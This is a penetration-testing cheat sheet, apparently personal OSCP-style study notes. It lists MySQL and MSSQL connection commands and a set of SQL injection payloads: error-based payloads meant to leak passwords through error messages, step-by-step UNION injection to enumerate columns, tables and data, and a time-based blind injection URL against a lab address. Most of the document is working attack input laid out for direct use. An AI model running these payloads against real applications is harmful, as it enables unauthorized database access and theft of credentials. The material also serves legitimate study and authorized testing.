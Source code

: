 
##### Note: make sure to check for error messages.
#### Connecting to MySQL
```
mysql -h TARGET_IP -u USERNAME -p   // Remote authentication with username and password
```

```
SELECT @@VERSION;               // Print the SQL version
SELECT system_user();           // Print the current user. Note: this is the database-specific user, it may not be the user of the same name in the system.

SHOW databases;
USE DATABASE_NAME;
SHOW tables;
```


#### MSSQL basics
```
impacket-mssqlclient USER:PASSWORD@IP_ADDRESS -windows-auth
SELECT @@VERSION;

SELECT name FROM master.dbo.sysdatabases               // Show databases
SELECT * FROM TARGET_DB.information_schema.tables;     // Show tables


```


#### Enabled error messages
```
' or 1=1 in (select @@version) -- -                 
' or 1=1 in (SELECT password FROM users) -- -         // might show the passwords in the error message.
```


#### MySQL UNION injection
First, use these payloads ascending until an error occurs:
```
' ORDER BY 1-- -
' ORDER BY 2-- -
' ORDER BY 3-- -
```
The last number before the error is the amount of columns in the request. Then, use this payload with the appropriate amount of columns:
```
' UNION SELECT @@version -- -
' UNION SELECT null, @@version -- -
...
' UNION SELECT null, null, database(), user(), @@version  -- -
```
If the payload works, it's time to read the database tables:
```
' union select table_name from information_schema.columns where table_schema=database() -- -
' union select null, table_name from information_schema.columns where table_schema=database() -- -
...
' union select null, null, null, null, table_name from information_schema.columns where table_schema=database() -- -
// options: table_name, column_name, table_schema,
```

If a table is found:
```
' UNION SELECT null, COLUMN_NAME FROM TABLE_NAME -- 
```

#### Blind SQLI
```
http://192.168.50.16/blindsqli.php?user=offsec' AND IF (1=1, sleep(3),'false') -- -
```